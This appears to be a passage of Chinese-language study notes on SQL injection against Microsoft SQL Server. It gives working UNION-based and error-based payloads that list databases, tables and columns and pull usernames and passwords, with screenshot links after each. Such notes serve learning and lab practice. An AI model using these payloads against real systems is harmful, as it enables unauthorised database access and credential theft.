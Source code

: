 ![image-20240905150605603](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905150605603.png)

#### 获取数据

```sql
id=-1'union select top 1 1,username,password from users where username not in(select top 1 username from users) and password not in(select top 1 password from users) --+
```

![image-20240905150943081](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905150943081.png)

------

# 报错注入

#### 获取数据库名

```sql
id=-1'and 1=db_name() --+
```

![image-20240905155852198](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905155852198.png)

#### 获取`所有`数据库名

```sql
id=1'and 1=(select quotename(name) from master.sys.databases FOR XML PATH('')) --+
```

![image-20240905161555068](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905161555068.png)

#### 获取表名

```sql
id=-1'and 1=(select top 1 table_name from information_schema.tables where table_name not in(select top 4 table_name from information_schema.tables)) --+
```

![image-20240905160959034](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905160959034.png)

#### 获取`所有`表名

```sql
id=1'and 1=(select quotename(table_name) from information_schema.tables FOR XML PATH('')) --+
```

![image-20240905161409716](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905161409716.png)

#### 获取字段名

```sql
id=1'and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 2 column_name from information_schema.columns where table_name='users')) --+
```
